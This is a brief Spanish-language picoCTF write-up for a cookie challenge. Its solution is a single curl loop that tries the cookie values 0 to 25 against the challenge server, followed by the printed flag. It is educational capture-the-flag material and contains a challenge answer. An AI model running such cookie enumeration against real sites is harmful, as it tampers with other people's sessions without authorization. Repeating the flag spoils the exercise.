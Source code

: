 # Web picoCTF

## Descripcion

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)

## Pistas (Si hay)



## Solución

``` Bash

┌──(kali㉿kali)-[~]
└─$ for i in {0..25}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>


```

## Referencias